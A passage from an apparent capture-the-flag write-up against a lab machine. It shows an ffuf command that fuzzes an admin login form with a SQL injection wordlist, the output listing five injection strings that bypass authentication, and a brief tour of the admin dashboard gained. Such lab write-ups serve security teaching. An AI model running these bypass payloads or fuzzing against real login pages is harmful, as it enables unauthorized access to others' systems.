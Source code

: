     
    
    oxdf@parrot$ ffuf -X POST -u http://10.10.11.101/administrative -d 'uname=FUZZ&password=0xdf' -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -x http://127.0.0.1:8080 -H "Content-Type: application/x-www-form-urlencoded" --fw 206
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v1.3.1 Kali Exclusive <3
    ________________________________________________
    
     :: Method           : POST
     :: URL              : http://10.10.11.101/administrative
     :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
     :: Header           : Content-Type: application/x-www-form-urlencoded
     :: Data             : uname=FUZZ&password=0xdf
     :: Follow redirects : false
     :: Calibration      : false
     :: Proxy            : http://127.0.0.1:8080
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405
     :: Filter           : Response words: 206
    ________________________________________________
    
    admin' or '             [Status: 200, Size: 1296, Words: 280, Lines: 33]
    hi' or 'x'='x';         [Status: 200, Size: 1296, Words: 280, Lines: 33]
    x' or 1=1 or 'x'='y     [Status: 200, Size: 1296, Words: 280, Lines: 33]
    ' or 1=1 or ''='        [Status: 200, Size: 1296, Words: 280, Lines: 33]
    ' or 0=0 #              [Status: 200, Size: 1296, Words: 280, Lines: 33]
    :: Progress: [267/267] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
    

There’s five examples of other payloads that would allow for login.

### Enumerate Dashboard

In addition to the static dashboard shown above, there’s a few more routes,
available via the menu on the left side.

`/dashboard/stories` gives a control panel for the various blog posts on the
main site:

![image-20210906200206998](https://0xdfimages.gitlab.io/img/image-20210906200206998.png)

I can edit pages here, and it shows up on the main site:

![image-20211201135434066](https://0xdfimages.gitlab.io/img/image-20211201135434066.png)

`/dashboard/users` shows a single user, admin:
